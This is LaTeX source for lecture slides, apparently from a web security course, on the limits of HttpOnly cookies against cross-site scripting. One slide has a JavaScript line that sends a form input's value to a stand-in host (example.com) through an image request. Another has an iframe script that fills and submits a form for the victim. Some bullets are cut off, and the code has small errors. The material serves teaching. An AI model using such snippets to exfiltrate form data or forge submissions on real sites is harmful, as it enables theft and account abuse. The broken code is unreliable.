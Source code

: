 \begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is 
    \item eliminates obvious way of exploiting XSS
    \item problem (1): 
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
(new Image()).src = "https://example.com/?" +
    document.getElementByTagName('input')[0].value
\end{Verbatim}
\end{frame}

\begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item problem (2): 
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
<iframe id='the-frame'></iframe>
<script>
var frame = document.getElementById('the-frame');
frame.onload = function( {
    frame.contentDocument.getElementById('form-field').value = ...;
    frame.contentDocument.getElementById('form-id').submit()
}
frame.src = ...;
\end{Verbatim}
\end{frame}
